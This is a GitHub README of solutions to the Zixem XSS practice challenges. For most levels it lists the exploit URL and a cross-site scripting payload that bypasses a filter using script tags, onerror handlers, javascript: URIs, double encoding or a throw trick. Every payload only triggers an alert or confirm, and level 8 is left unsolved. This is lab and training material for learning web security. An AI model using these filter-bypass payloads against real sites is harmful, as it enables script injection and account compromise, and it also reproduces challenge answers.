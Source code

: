 # 🧨 Zixem XSS Challenges – Solutions

This repository contains my solutions for the [zixem_xss](https://zixem.altervista.org/XSS/) , a set of web-based labs focused on Cross-Site Scripting (XSS) exploitation techniques.

**level 1**

https://zixem.altervista.org/XSS/1.php?name=<script>alert(1337)</script>
+ Payload: <script>alert(1337)</script> 

**level 2**

https://zixem.altervista.org/XSS/2.php?name=<SCRIPT>alert(1337)</SCRIPT>
+ Payload: <SCRIPT>alert(1337)</SCRIPT>

**level 3**

https://zixem.altervista.org/XSS/3.php?name=%0A <img src=w onerror=alert(1337)>
+ Payload: %0A <img src=w onerror=alert(1337)>

**level 4**

https://zixem.altervista.org/XSS/4.php?img=sw' onerror='alert(1337)
+ Payload: sw' onerror='alert(1337)

**level 5**

https://zixem.altervista.org/XSS/5.php?name=zxm&action=javascript:alert(1337);
+ Payload: javascript:alert(1337);

**level 6**

https://www.zixem.altervista.org/XSS/6.php?name=\74img src=x onerror=alert(1337)&gt;
+ Payload: \74img src=x onerror=alert(1337)&gt;

**level 7**

https://zixem.altervista.org/XSS/7.php?name=%253Csvg/onload=alert(1333)%253E
+ Payload: %253Csvg/onload=alert(1333)%253E

**level 8**

Sorry folks, I couldn't crack this level yet — still wrapping my head around it.If you’ve got this, feel free to share. I’ll update this once I figure it out.

**level 9**

https://zixem.altervista.org/XSS/9.php?name=<sVg/onload=confirm(1337)>
+ Payload: <sVg/onload=confirm(1337)>

**level 10**

https://zixem.altervista.org/XSS/10.php?name=zxm');onerror=alert;throw1337;//
+ Payload: zxm');onerror=alert;throw1337;//
